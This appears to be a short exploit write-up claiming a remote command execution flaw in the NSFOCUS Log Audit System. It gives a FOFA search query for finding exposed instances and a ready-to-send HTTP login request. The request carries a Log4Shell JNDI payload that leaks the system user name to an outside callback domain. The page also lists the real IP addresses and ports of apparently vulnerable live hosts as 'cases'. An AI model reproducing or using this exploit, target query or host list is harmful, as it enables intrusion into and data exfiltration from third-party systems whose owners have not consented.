 # NSFOCUS Log Audit System

NSFOCUS Log Audit System has remote command execution vulnerability.



FOFA:

```
"<title>{{platformName}}</title>" && icon_hash="-1566499661"
```

POC：

```
PUT /api/v1/login HTTP/1.1
Host: X.X.X.X
Connection: keep-alive
Content-Length: 84
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Accept-Language: zh_CN
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=C2CBDF46F7B53365D2ECE60AA645B673; sessionid=w0gr7fyrkt56tf6yc3sr0pw6mjl59txi

{"name":"${jndi:ldap://${sys:user.name}.zofkxecpjc.dgrh3.cn}","password":"2Y4W5F5h"}
```



Case 1:  https://110.52.215.145:8443/

![image.png](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/4e7cd8cd-4852-4ed6-b473-b8aab84cc701.png)

![image.png](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/9d88fa1e-27ed-4828-abc6-cb18096ec30f.png)

Case 2: https://116.162.97.7:2443/

![image.png](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/62c3e152-4f24-4e09-9abc-a2cd13dad4e8.png)

![image.png](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/96767653-bb56-4a01-b6f1-fa5cce21a391.png)

Case 3: https://110.52.215.145:8443/

![image.png](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/62bd412b-0172-43c6-9d4a-9459c965ab84.png)

![image.png](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/d380fbc7-4cba-46a3-8a13-750cbcc5ca01.png)





















